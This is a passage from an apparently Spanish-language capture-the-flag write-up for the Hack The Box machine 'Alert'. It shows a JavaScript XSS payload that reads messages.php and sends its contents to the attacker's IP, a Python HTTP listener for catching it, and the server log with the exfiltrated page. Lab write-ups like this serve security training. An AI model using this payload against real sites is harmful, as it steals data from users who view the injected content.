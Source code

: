 ~~~ js
fetch("http://alert.htb/messages.php")
  .then(response => response.text())
  .then(data => {
    fetch("http://10.10.14.254/?file_content=" + encodeURIComponent(data));
  });
~~~

Subimos el archivo y copiamos el link para compartirlo a través del formulario de contacto

![image-center](/assets/images/posts/alert-xss.png){: .align-center}

Pondremos el link dentro del mensaje. Antes de enviarlo, debemos poner a la escucha un servidor HTTP por nuestro puerto `80`

~~~ bash
python3 -m http.server 80
~~~ 

![image-center](/assets/images/posts/alert-xss-2.png){: .align-center}

Una vez hayamos enviado el mensaje, la víctima cuando vea el mensaje supuestamente nos enviará el contenido del archivo `messages.php`

~~~ bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.44 - - [22/Mar/2025 16:37:27] "GET /test.js HTTP/1.1" 200 -
10.10.11.44 - - [22/Mar/2025 16:37:28] "GET /?file_content=%3Ch1%3EMessages%3C%2Fh1%3E%3Cul%3E%3Cli%3E%3Ca%20href%3D%27messages.php%3Ffile%3D2024-03-10_15-48-34.txt%27%3E2024-03-10_15-48-34.txt%3C%2Fa%3E%3C%2Fli%3E%3C%2Ful%3E%0A HTTP/1.1" 200 -
~~~
